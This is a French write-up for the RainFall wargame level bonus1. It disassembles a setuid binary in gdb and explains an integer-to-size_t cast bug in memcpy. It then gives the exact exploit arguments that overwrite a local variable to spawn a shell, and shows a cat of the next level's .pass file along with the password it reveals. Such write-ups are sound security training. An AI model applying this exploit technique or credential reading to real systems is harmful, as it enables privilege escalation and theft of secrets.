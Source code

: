 ## 1: Analyse

### A: C'est quoi mon binaire?

  ```shell
  # On se connecte si c'est pas déja fait via le bonus0
  $ ssh bonus1@127.0.0.1 -p 4242
     _____       _       ______    _ _
    |  __ \     (_)     |  ____|  | | |
    | |__) |__ _ _ _ __ | |__ __ _| | |
    |  _  /  _` | | '_ \|  __/ _` | | |
    | | \ \ (_| | | | | | | | (_| | | |
    |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                  Good luck & Have fun

    To start, ssh with level0/level0 on 10.0.2.15:4242
  bonus1@127.0.0.1's password cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
  [...]
  bonus1@RainFall:~$
  
  # On regarde ce qu'on a
  bonus1@RainFall:~$ ls -la
    total 17
    dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
    dr-x--x--x  1 root   root    340 Sep 23  2015 ..
    -rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
    -rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
    -rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
    -rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
    -rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile

  # On teste les arguments
  bonus1@RainFall:~$ ./bonus1
    Segmentation fault (core dumped)
  bonus1@RainFall:~$ ./bonus1 bonjour
  bonus1@RainFall:~$ ./bonus1 123
  bonus1@RainFall:~$ ./bonus1 8
    Segmentation fault (core dumped)
  bonus1@RainFall:~$ ./bonus1 1234567890984321234
  ```
  * Sans arg on segfault
  * Avec un petit nombre en argument on segfault


### B: On l'ouvre avec gdb
  * On va dans tmp pour lancer avec peda qu'on a copié avec le setup.sh
  ```shell
    bonus1@RainFall:~$ cd /tmp
  ```

  * On lance gdb avec notre binaire
  ```shell
    bonus1@RainFall:/tmp$ gdb ~/bonus1
      [...]
      Reading symbols from /home/user/bonus1/bonus1...(no debugging symbols found)...done.
  ```

  * Qu'est-ce qu'on a comme fonctions?
  ```shell
    gdb-peda$ info functions
    All defined functions:

    Non-debugging symbols:
    0x080482d4  _init
    0x08048320  memcpy
    0x08048320  memcpy@plt
    0x08048330  __gmon_start__
    0x08048330  __gmon_start__@plt
    0x08048340  __libc_start_main
    0x08048340  __libc_start_main@plt
    0x08048350  execl
    0x08048350  execl@plt
    0x08048360  atoi
    0x08048360  atoi@plt
    0x08048370  _start
    0x080483a0  __do_global_dtors_aux
    0x08048400  frame_dummy # Func interessantes ?
    0x08048424  main        # Func interessantes ?
    0x080484b0  __libc_csu_init
    0x08048520  __libc_csu_fini
    0x08048522  __i686.get_pc_thunk.bx
    0x08048530  __do_global_ctors_aux
    0x0804855c  _fini
  ```

  * Commandes lancées pendant l'analyse du binaire ci-dessous
  ```shell
    gdb-peda$ x/s 0x8048580
      0x8048580:	 "sh"

    gdb-peda$ x/s 0x8048583
      0x8048583:	 "/bin/sh"
  ```

  * On disassemble main pour regarder le code
  ```shell
    gdb-peda$ pdisas main
      Dump of assembler code for function main:
      # Initialisation, alignement, et allocation de 64 octets
      0x08048424 <+0>:	push   ebp
      0x08048425 <+1>:	mov    ebp,esp
      0x08048427 <+3>:	and    esp,0xfffffff0
      0x0804842a <+6>:	sub    esp,0x40

      # number = atoi(argv[1])
      0x0804842d <+9>:	mov    eax,DWORD PTR [ebp+0xc]
      0x08048430 <+12>:	add    eax,0x4
      0x08048433 <+15>:	mov    eax,DWORD PTR [eax]
      0x08048435 <+17>:	mov    DWORD PTR [esp],eax
      0x08048438 <+20>:	call   0x8048360 <atoi@plt>

      # if number <= 9 Jump main+43
      0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
      0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
      0x08048446 <+34>:	jle    0x804844f <main+43>

      # Sinon jump a main+127 Return 1
      0x08048448 <+36>:	mov    eax,0x1
      0x0804844d <+41>:	jmp    0x80484a3 <main+127>

      # Call memcpy(buffer, argv[2], number)
      0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]
      0x08048453 <+47>:	lea    ecx,[eax*4+0x0]
      0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]
      0x0804845d <+57>:	add    eax,0x8
      0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
      0x08048462 <+62>:	mov    edx,eax
      0x08048464 <+64>:	lea    eax,[esp+0x14]
      0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx
      0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx
      0x08048470 <+76>:	mov    DWORD PTR [esp],eax
      0x08048473 <+79>:	call   0x8048320 <memcpy@plt>

      # if number != 1 464 814 662 return0
      0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
      0x08048480 <+92>:	jne    0x804849e <main+122>

      # else call execl("/bin/sh", "sh", NULL)
      0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
      0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
      0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
      0x08048499 <+117>:	call   0x8048350 <execl@plt>
      0x0804849e <+122>:	mov    eax,0x0

      # Return eax
      0x080484a3 <+127>:	leave
      0x080484a4 <+128>:	ret
      End of assembler dump.
  ```

## 2: Comportement
  * Notre programme prend en fait 2 paramètres.
  * Le premier (number1) est un nombre qui doit être > 9.
  * Le deuxieme va être copié de number1 elements.
  * Ensuite le programme lance un shell si number1 est de 1 464 814 662 sinon il return 0

## 3: Exploit

### A: Explication

> On ne peut copier que 9 chars maximum de argv[2] dans dest. Cela ne sera pas suffisant pour réécrire sur number1 (9 * 4 < 44).
> Or on voit dans le prototype de memcpy que number1 * 4 va être casté implicitement en size_t.
> En passant un nombre négatif dans number1 on va pouvoir, grâce au cast implicite, écrire le nombre de char de argv[2] que l'on souhaite.
> On va donc écrire 1 464 814 662 en little endian \x46\x4c\x4f\x57 et le passer dans notre 2eme argument avec l'offset voulu.
> Pour l'offset, on sait que number est a EBP - 4 et le buffer passé à memcpy est a EBP - 44.
> Il nous faut donc 40 d'offset avant d'ecrire "\x46\x4c\x4f\x57".
> Il faut aussi que (size_t)(number1 * 4) = 44.


### B: Creation de l'exploit

* Il nous faut donc: trouver notre premier argument.
* Le deuxieme est le suivant: `python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"'`
* Pour le premier, on fait un petit programme en c:

```c
#include <stdlib.h>
#include <stdio.h>

int     main(int argc, char **argv)
{
    int number1;

    number1 = atoi(argv[1]);
    printf("%d %zu\n", number1, number1 * 4);
    return (0);
}
```
```shell
  bonus1@RainFall:/tmp$ gcc find_number1.c; ./a.out -2147483648; rm a.out
    -2147483648 0
  bonus1@RainFall:/tmp$ gcc find_number1.c; ./a.out -2147483647; rm a.out
    -2147483647 4
  bonus1@RainFall:/tmp$ gcc find_number1.c; ./a.out -2147483646; rm a.out
    -2147483646 8
  # Et donc avec un petit calcul...
  bonus1@RainFall:/tmp$ gcc find_number1.c; ./a.out -2147483637; rm a.out
    -2147483637 44
```

* On lance donc notre exploit

```shell
  bonus1@RainFall:/tmp$ ~/bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
  $ whoami
    bonus2
  $ cat /home/user/bonus2/.pass
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
  bonus1@RainFall:/tmp$ su bonus2
    Password: 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
  bonus2@RainFall:~$
```